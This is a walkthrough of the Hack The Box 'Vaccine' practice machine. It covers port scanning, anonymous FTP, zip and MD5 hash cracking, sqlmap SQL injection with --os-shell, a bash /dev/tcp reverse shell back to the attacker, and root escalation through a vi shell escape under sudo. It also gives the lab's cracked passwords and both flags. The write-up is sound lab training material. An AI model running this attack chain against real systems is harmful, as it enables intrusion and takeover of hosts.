





# Vaccine
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.


## Task Breakdown
**1. Besides SSH and HTTP, what other service is hosted on this box?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.

> **Answer:** FTP

**2. This service can be configured to allow login with any password for specific username. What is that username?**
- You can login into FTP without an account with username `anonymous` and password `anonymous@domain.com`  

> **Answer:** anonymous

**3. What is the name of the file downloaded over this service?**
- After logging in, list files and you see `backup.zip`. Download this one by `get` command.  

> **Answer:** backup.zip
- But now unzipping this file requires a password.  


**4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> **Answer:** zip2john
- Run `zip2john backup.zip > hash` to extract the hashed password.  

- Use **John The Ripper** to crack this hash string (you can also add wordlists if needed) and it returns `741852963` as the password we're looking for  

- Re-unzip this file using the cracked password, revealing 2 files: index.php and style.css  


**5. What is the password for the admin user on the website?**
- In index.php, a hashed password for admin is found.  
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
- Using **john** with RockYou wordlist, we get `qwerty789` as password for `admin`  
 
> **Answer:** qwerty789

**6. What option can be passed to sqlmap to try to get command execution via the sql injection?**
- Run  `sqlmap -h` to list available options  

> **Answer:** --os-shell

**7. What program can the postgres user run as root using sudo?**
- In our scan report, we can see that this machine has port 80 open. Visit `http://[IP-Address]` and log in with `admin` and `qwerty789`. This leads to the **Admin Dashboard**.  

- This page shows a table with information such as name, type,... of cars, and also has a search box.
- When we type some text in this box and click **search**, the parameter in the URL will change to our text  

- Run `sqlmap -u 'http://[IP-Address]/dashboard.php?search=conmeo' --cookie 'PHPSESSID=[cookie-value]' --os-shell`. 
- If you run this command and encounter error like **unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported**, add `--flush-session --time-sec=20` at the end. That works for me =)))) Read more [here](https://forum.hackthebox.com/t/machine-name-vaccine-stuck-on-getting-sql-code-execution-shell/2513/58)

- Now use **Netcat** to create a **Reverse Shell**
    - On our machine, run `nc -lvnp 4444`
    - On target machine (os-shell), run `bash -c "bash -i >& /dev/tcp/[our-IP-Address]/[port] 0>&1"` 
    
- Once connected, we can remotely excecute on the target machine. After wandering around, I found some file in `/var/www/html`

- Looking for **password** in `dashboard.php` and we have this `P@s5w0rd!`
 
- SSH into PostgreSQL with `ssh @[IP-Address]`. Answer **yes** and enter the above password. Here we are using as user `postgres@vaccine`.

- Run `sudo -l` to find out all command we run as root. What we can see from the ouput is that we can use `vi` to edit a file


> **Answer:** vi

## Submit user flag
- The user flag should be located in `/var/lib/postgresql` directory  

- **User flag:** ec9b13ca4d6229cd5cc1e09980965bf7

## Submit root flag
- Now edit `/etc/postgresql/11/main/pg_hba.conf` with `vi`, then add: 
```
:set shell=/bin/sh
:shell
```
- This spawns a shell, allowing root access.  

- After that we can run as normal root user. The root flag is located in `root` directory
  
- **Root flag:** dd6e058e814260bc70e9bbdef2715849

